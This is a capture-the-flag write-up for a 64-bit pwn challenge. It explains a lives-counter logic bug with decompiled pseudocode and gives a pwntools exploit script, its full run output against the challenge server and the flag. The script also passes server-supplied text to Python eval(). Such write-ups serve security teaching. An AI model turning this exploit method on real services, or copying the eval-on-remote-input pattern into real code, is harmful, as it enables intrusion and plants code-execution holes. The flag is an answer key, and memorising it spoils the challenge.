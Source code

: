 # Pwn 200 - Math Homework

We are given a nc server, ```nc 40.76.33.15 55777```, and a 64 bit binary.

Here is the pseudocode:

```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  const char *v4; // rdi
  const char **v5; // [rsp+0h] [rbp-30h]
  char v6; // [rsp+1Fh] [rbp-11h]
  signed int i; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+24h] [rbp-Ch]
  char *format; // [rsp+28h] [rbp-8h]

  v5 = argv;
  v6 = 0;
  v8 = 3;
  v3 = time(0LL);
  srand(v3);
  v4 = "I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...";
  puts("I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...");
  while ( 1 )
  {
    for ( i = 0; i <= 25; ++i )
    {
      format = (char *)generateExpression(v4);
      printf("%d. \n", (unsigned int)i, v5);
      printf(format);
      if ( (unsigned __int8)validateExpression(format) ^ 1 )
        printf("That was wrong! Lives left: %d", (unsigned int)--v8);
      else
        v6 = 1;
      checkState(v8, i == 25);
      putchar(10);
      v4 = format;
      free(format);
    }
    v4 = "If only there was a way I could get these homeworks to stop...";
    puts("If only there was a way I could get these homeworks to stop...");
    if ( v6 != 1 )
      end("If only there was a way I could get these homeworks to stop...");
    v6 = 0;
  }
}

signed __int64 __fastcall checkState(int a1, char a2)
{
  if ( a2 )
    return 2LL;
  if ( a1 )
    return 0LL;
  puts("\nArgh! I'm never going to finish at this rate!");
  exit(0);
  return 0LL;
}
```

First, we run the binary and see what it does:

```
alex@WINDOWS-0A3VRFK:/mnt/c/Users/alex/Desktop/CTF$ ./mathHomework
I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...
0.
8+0=8

1.
5+5=10

2.
5+1=
```

So it generates some math expressions and we have to provide the answer.

You can reverse this binary more, but I'll just skip to the vulnerability. The bug is in checkState. The program uses checkState in the following way:

The first argument is our lives, and the second argument is the question number, or loop counter. Essentially, checkState checks if we run out of lives or not, if we do, then the program exits.

However, if it's the last question, the checkState returns automatically without checking our lives. Basically what we can do with this is that if our lives decrement to 0 on the last question, then the program doesn't exit. Now, becuase checkState only checks if our lives is exactly 0, we can now decrement our lives to a negative number, which will pass the checkState lives check.

Now the flag is printed from the function end:

```C
void __noreturn end()
{
  puts("\nEh, I can just make it up on the final.");
  system("cat flag.txt");
  exit(0);
}
```

To reach end, all we have to do is not get a single question correct. Since our lives is not negative and it only decrements, we can just get all the questions wrong and receive the flag. My python program implementing this is shown below:

```python
from pwn import *

r = remote("40.76.33.15", 55777)
for i in range(23):
	r.recvuntil(str(i) + ".")
	r.recvline()
	tosolve = r.recvuntil("=").strip("=")
	ans = eval(tosolve)
	r.sendline(str(ans))

for i in range(29):
	r.sendline("9999")

r.interactive()
```

```
[x] Opening connection to 40.76.33.15 on port 55777
[x] Opening connection to 40.76.33.15 on port 55777: Trying 40.76.33.15
[+] Opening connection to 40.76.33.15 on port 55777: Done
[*] Switching to interactive mode

23. 
1*1=That was wrong! Lives left: 2
24. 
9|5=That was wrong! Lives left: 1
25. 
6+5=That was wrong! Lives left: 0
If only there was a way I could get these homeworks to stop...
0. 
7/9=That was wrong! Lives left: -1
1. 
5-4=That was wrong! Lives left: -2
2. 
5^8=That was wrong! Lives left: -3
3. 
7*9=That was wrong! Lives left: -4
4. 
9&6=That was wrong! Lives left: -5
5. 
0+1=That was wrong! Lives left: -6
6. 
0/1=That was wrong! Lives left: -7
7. 
8/5=That was wrong! Lives left: -8
8. 
2+2=That was wrong! Lives left: -9
9. 
7+1=That was wrong! Lives left: -10
10. 
4|2=That was wrong! Lives left: -11
11. 
5/6=That was wrong! Lives left: -12
12. 
1|4=That was wrong! Lives left: -13
13. 
9/1=That was wrong! Lives left: -14
14. 
0-5=That was wrong! Lives left: -15
15. 
9-0=That was wrong! Lives left: -16
16. 
0/3=That was wrong! Lives left: -17
17. 
3|6=That was wrong! Lives left: -18
18. 
8*1=That was wrong! Lives left: -19
19. 
3-2=That was wrong! Lives left: -20
20. 
6^0=That was wrong! Lives left: -21
21. 
8+6=That was wrong! Lives left: -22
22. 
5^9=That was wrong! Lives left: -23
23. 
9*9=That was wrong! Lives left: -24
24. 
3/1=That was wrong! Lives left: -25
25. 
8^3=That was wrong! Lives left: -26
If only there was a way I could get these homeworks to stop...

Eh, I can just make it up on the final.
b0ctf{stillbetterthanwebassign}
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to 40.76.33.15 port 55777
```

## Flag
### b0ctf{stillbetterthanwebassign}
